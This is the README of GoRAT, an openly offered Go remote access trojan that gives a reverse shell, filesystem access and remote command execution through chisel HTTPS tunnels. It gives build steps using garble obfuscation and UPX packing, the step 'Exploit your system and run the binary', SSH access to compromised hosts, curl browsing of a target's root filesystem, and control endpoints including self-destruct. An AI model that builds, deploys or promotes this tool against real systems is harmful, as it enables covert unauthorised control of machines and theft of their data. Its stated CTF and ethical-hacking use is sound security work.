

```
 @@@@@@@@   @@@@@@   @@@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@@  @@@@@@@  
!@@        @@!  @@@  @@!  @@@  @@!  @@@    @@!    
!@!        !@!  @!@  !@!  @!@  !@!  @!@    !@!    
!@! @!@!@  @!@  !@!  @!@!!@!   @!@!@!@!    @!!    
!!! !!@!!  !@!  !!!  !!@!@!    !!!@!!!!    !!!    
:!!   !!:  !!:  !!!  !!: :!!   !!:  !!!    !!:    
:!:   !::  :!:  !:!  :!:  !:!  :!:  !:!    :!:    
 ::: ::::  ::::: ::  ::   :::  ::   :::     ::    
 :: :: :    : :  :    :   : :   :   : :     :     
```

[](https://pkg.go.dev/github.com/JustinTimperio/GoRAT)

[](https://www.codacy.com/gh/JustinTimperio/GoRAT/dashboard?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=JustinTimperio/GoRAT&amp;utm_campaign=Badge_Grade)

GoRAT(Go Remote Access Tool) is an extremely powerful yet simple reverse shell, file server, and control plane using HTTPS reverse tunnels as a transport mechanism. (GoRAT is not anonymous and designed for CTF players, Go enthusiasts, and security experts.)
### Supported Distros:

| 64Bit Distros       | 32Bit Distros       |
|---------------------|---------------------|
| Linux               | Linux               | 
| FreeBSD             | FreeBSD             |
| OpenBSD             | OpenBSD             |
| Linux ARM           | Linux ARM           | 
| FreeBSD ARM         | FreeBSD ARM         |
| OpenBSD ARM         | OpenBSD ARM         |
| Linux MIPS          | Linux MIPS          |
| MacOS               | Windows (kinda)     |
| Windows (kinda)     |                     |

# Installing and Building

1. Set up a full GoLang build environment
2. Install [UPX](https://upx.github.io/) and run `go install mvdan.cc/garble`
3. Fill out `config.sh` and run `./build_payload.sh --garble`
4. Transfer the `BUILD` folder to your "attacking" machine, install [bc](https://linux.die.net/man/1/bc) and run `./start_server.sh`
5. Exploit your system and run the binary
6. Connect to the "target" via normal ssh from the "attacking" machine


# Chisel Server Usage
GoRAT uses the standard release binaries provided by the [chisel project](https://github.com/jpillora/chisel/releases). The server requires a number of configure options and has fairly verbose logging. For this reason a small shell script is provided to start and parse the output of chisel for easy use. To use it, run the following:
1. `cd server` 
2. `./start_server.sh` 

As clients connect you will see a log like this. We will use this log to access each clients SSH Server, HTTP File Server, and HTTP Control Server.
```
mr.robot@localhost:~# ./start_server.sh 
Starting Chisel Server on Port 1337
=============================================
Session #1 | Control Server Mounted On: 27818
Session #1 | SSH Server Mounted On: 27819
=============================================
Session #2 | Control Server Mounted On: 33132
Session #2 | SSH Server Mounted On: 33133

```

# Payload Usage
As with many Go binaries, client executables require zero configure and simply need to be executed. In its current state GoRAT does not include any methods of persistence so if you would like to make it a service, you will need to do so by your own methods.

The payload also uses [garble](https://github.com/burrowers/garble) to produce a binary that works as well as a regular build, but has as little information about the original source code as possible.

## SSH Server (Linux, FreeBSD, Darwin, OpenBSD)
Using the logs we can connect to clients directly via ssh using our standard unix OpenSSH package.
```
ssh localhost -p ####
```

## WSSH Windows (The Problem Child)
*WARNING THE WINDOWS SHELL IS TERRIBLE, THIS WAS JUST AN EXPERIMENT*

Please check out this thread: https://github.com/creack/pty/pull/109#issuecomment-864673714

When connecting to Windows hosts the following command will not work as GoRAT does not have a Windows PTY. For Windows systems we connect using a custom wrapper written for GoRAT.

```
cd wssh
go build wssh.go
./wssh.go
```

## Control Server
The control server is a simple http mechanism that translates `/some-page` to internal go commands. In this way, requesting a webpage results directly in the execution of code on a client system. While this mechanism is not very sophisticated, it is extremely reliable and performant. The api current has the following commands:

1. `http://localhost:port/` - Returns a status code of `OK` if the host is online and responding to requests
2. `http://localhost:port/hardware` - Reports basic hardware survey of device in json 
3. `http://localhost:port/stop` - Closes the client payload WITHOUT self-destruction
4. `http://localhost:port/uninstall` - Terminates the client payload AND self-destructs

## File Server
Each client's file server can be accessed on the same port as the control server. The file server is, from a technical standpoint, directly part of Control Server. Files and directories can be accessed at `http://localhost:####/fs/` through your browser or tools like `wget` and `curl`.


```
[robot@localhost ~]$ curl localhost:14963/fs/
<pre>
<a href="bin">bin</a>
<a href="boot/">boot/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="keybase/">keybase/</a>
<a href="lib">lib</a>
<a href="lib64">lib64</a>
<a href="lost+found/">lost+found/</a>
<a href="mnt/">mnt/</a>
<a href="opt/">opt/</a>
<a href="proc/">proc/</a>
<a href="root/">root/</a>
<a href="run/">run/</a>
<a href="sbin">sbin</a>
<a href="srv/">srv/</a>
<a href="sys/">sys/</a>
<a href="test/">test/</a>
<a href="tmp/">tmp/</a>
<a href="usr/">usr/</a>
<a href="var/">var/</a>
</pre>
```


# Architecture
GoRAT uses [chisel](https://github.com/jpillora/chisel) and [gliderlabs ssh server](https://github.com/gliderlabs/ssh) to create a high performance remote reverse tunnel over HTTPS. The diagram below shows how GoRAT establishes a link between multiple “targets” and a single “attacker”. 



# Disclaimer
Use of GoRAT for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this software. Only use for educational purposes / ethical hacking. Multiple tools in this software include their own license.
